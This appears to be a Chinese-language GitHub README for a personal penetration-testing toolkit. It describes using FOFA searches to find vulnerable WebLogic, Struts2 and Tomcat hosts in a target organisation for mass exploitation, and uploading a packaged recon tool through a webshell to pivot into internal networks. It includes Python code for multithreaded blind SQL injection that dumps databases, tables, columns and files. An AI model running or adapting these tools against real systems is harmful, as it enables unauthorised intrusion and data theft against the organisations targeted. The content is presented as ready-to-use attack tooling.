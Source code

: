 
# SomeTools

**自己使用的一些脚本和工具**

|             脚本              |       功能        |
| :---------------------------: | :---------------: |
|    blind_inject_getdata.py    |  二分法盲注利用   |
| mul_blind_injdect_dumpdata.py | 多线程and盲注利用 |
|fofa_search.py | 通过fafa批量爬取检索结果 |
| WebFinder.py | 获取存活的WEB URL以及对应的标题|
| HackBox.rar | 安全测试工具|
---

**fofa_search**

  该脚本通过多线程爬取搜索页面的链接信息，输入参数为网页登录后的cookie信息，可通过浏览器F12 查看网络连接复制获取，支持主机和web查询，在对目标组织进行渗透的时候可以使用该脚本检索目标主机存在weblogic\struts2\tomcat\致远OA等组件的主机，然后结合poc-t\pocsuite\pocstart等漏洞检测框架批量检测，运气好的话很容易就能拿到webshell.

example:
  以下对目标组织检索tomcat主机检索然后利用pocstart批量检测并发现文件下载漏洞。

  ```
  fofa dork:org="XXX Limited" && region="CN" && protocol=="ajp"
  ```
  ![image-20200524100713379](images/fofa_v2.png)
  ![](images/test_1.png)

*ReadMe*：https://forum.90sec.com/t/topic/1051

---

**WebFinder**

  该脚本主要是为了检索目标组织存活的web host以及对应的web标题，通过标题信息粗略定位下一步渗透的目标系统，通常用于内网渗透过程的信息收集，对于只能通过webshell 操作的目标，可以使用pyinstaller打包上传到目标机器进行内网信息收集，然后利用regeorg代理渗透内网。附件也提供了一个打包好的exe
 ![](images/image-20200524001731394.png)

---

**BlindInject_dump**

前段时间先知发了一篇关于盲注效率分析的文章(https://xz.aliyun.com/t/7575)，里面提到了三种盲注利用方法：**遍历法|二分法|与运算**，这里分享一下mysql盲注场景下利用二分法和与运算注入数据通用脚本。

* **实现功能**

| API                  | 功能                           |
| :------------------- | :----------------------------- |
| get_current_database | 获取当前数据库                 |
| get_current_user     | 获取当前用户                   |
| get_dbs              | 获取所有数据库                 |
| get_tables           | 获取指定数据库表名             |
| get_columns          | 获取指定数据表列名             |
| dump                 | 获取指定列数据                 |
| dump_all             | 自动化dump指定数据库的所有数据 |
| read_file            | 读取文件                       |

 ![](images/image-20200529201837138.png)

# 二分法：

这种方法比较简单，就是重复搜索判断某一个值是否介于一个区间，直至区间消失也就是区间左边界等于右边界的时候的边界值就是我们要寻找的值。

```python
def double_search(table_name, col_name, in_limit='0', index="", query =query,left_number=0, right_number=0):
    while True:
        payload = get_payload(table_name, col_name, in_limit, index, value=str(right_number), query=query)
        text = send_data(payload)
        if find_success(success_flag, text):
            left_number = right_number
            right_number = 2*right_number
        else:
            break

    while left_number < right_number:
        mid = int((left_number + right_number) / 2)
        payload = get_payload(table_name,col_name,in_limit,index,value=str(mid),query =query)
        text =send_data(payload)
        if find_success(success_flag, text):
            left_number = mid
        else:
            right_number = mid
        if left_number == right_number - 1:
            payload = get_payload(table_name, col_name, in_limit, index, value=str(mid), query=query)
            text = send_data(payload)
            if find_success(success_flag, text):
                mid += 1
                print('found')
                break
            else:
                break
    return mid
```

# 与运算：

一个字符是由8个二进制位构成，可以使用每个二进制位分别和1进行与操作，在两个操作数都是1的情况下结果才为1，所以利用这个特性可以分别获取每个二进制位进而得到该字符的ascii，当然实际编写代码的时候，我们肯定不是获取每一个二进制位来判定返回值的真假，对于一个10进制数 v,我们知道

```v= a*2^7+b*2^6+c*2^5+d*2^4+e*2^3+f*2^2+g*2^1+h*2^0  ```，其中[a-h]是八个二进制位，只需要进行 v&[2^i],i 属于 [0-7]，然后分别把得到的结果相加就可以得到 v，为了能够方便的多线程并发，可以假设[a-h]都是1,当假设成立的时候，条件为真，可以不做处理，否则将对应的二进制值置为0，最后按照前文计算公式得到v的值，进而获取全部数据。

![image-20200529205101029](images/image-20200529205101029.png)

```python
def get_values_by_and_blind(table_name, col_name, in_limit='0', query =query):
    cu_query = query
    len = int(get_length(table_name, col_name, in_limit,cu_query))
    text = ""
    if len > 0:
        payloads = []
        for  i in range(1,len+1):
            for j in range(8):
                value = 2 ** j
                payload = get_payload(table_name, col_name, in_limit, str(i), value=str(value), query=query)
                data = {}
                data['index'] = i
                data['value'] = value
                data['payload'] = payload
                payloads.append(data)
        dump = DATA_AND(payloads)  # params(threadnums,url_lists)
        dump._start()
        group_list = []
        indexs  = list(set([i.get('index') for i in payloads]))
        for index in indexs:
            temp = []
            for payload in payloads:
                if payload.get('index') == index:
                    temp.append(payload['value'])
            group_list.append(temp)
        _ = [sum(v) for v in group_list]
        text = ''.join([chr(v) for v in _])
        print("In program: " + text)
    return text


class DATA_AND(object):
    def __init__(self, payloads):
        self.threads = conf['thread_num']
        self.payloads = payloads
        self.mutex = Lock()

    def run(self, payload):
        try:
            data = payload['payload']
            text = send_data(data)
            if not find_success(success_flag, text):
                value = 0
                self.mutex.acquire()
                payload['value'] = value
                self.mutex.release()
        except Exception as e:
            print e.message

    def _start(self):
        try:

            pool = ThreadPool(processes=self.threads)
            pool.map_async(self.run, self.payloads).get(0xffff)
            pool.close()
            pool.join()

        except Exception as e:
            print e
        except KeyboardInterrupt:
            print '[!] user quit!'
            sys.exit(1)
```
![image-20200529234700625](images/image-20200529234700625.png)

![image-20200529234735321](images/image-20200529234735321.png)

*ReadMe* : https://forum.90sec.com/t/topic/1076

---

